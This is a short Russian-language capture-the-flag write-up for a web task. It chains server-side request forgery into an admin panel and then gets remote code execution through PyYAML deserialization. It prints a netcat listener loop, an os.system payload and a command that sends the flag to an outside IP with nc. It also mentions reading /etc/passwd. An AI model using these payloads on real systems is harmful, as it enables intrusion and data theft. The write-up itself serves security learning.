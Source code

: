1. Смотрим, какие проверки делает сайт и отправляем его проверить наш сервер 89.163.129.121:9999. 
Видим, что он отправляет  {"key": "test_key", "value": "test_value"} и проверяет value. Запускаем  
```
value while true; do echo -e "HTTP/1.1 200 OK\n\n  test_value" | nc -l -v -p 9999 -q 1;done
```
на 89.163.129.121 и получаем 1-й флаг.

2. Видим, что запросы через http://b121.ctf2019.rocks/integration/ на закрытый порт падают с ошибкой из  urllib3 
питона.

3. Находим админку через dirsearch. Она отдает 403 - поэтому делаем запрос http://localhost/admin/ через сайт.  Проверяем как он реагирует на параметры в  http://localhost/admin/?blacklist= . Видим, что  падает с 500
 про несбалансированных кавычках. Поиск по python remote code execution привел к уязвимости в  pyyaml. 
Передаем http://localhost/admin/?blacklist=!!python/object/apply:os.system ["sleep 5"] и подтверждаем уязвимость. 
Достаем флаг передав http://localhost/admin/?blacklist=!!python/object/apply:os.system [" cat flag | nc 89.163.129.121:9999"].
Находим дополнительные флаги в ./integration.db  и /etc/passwd
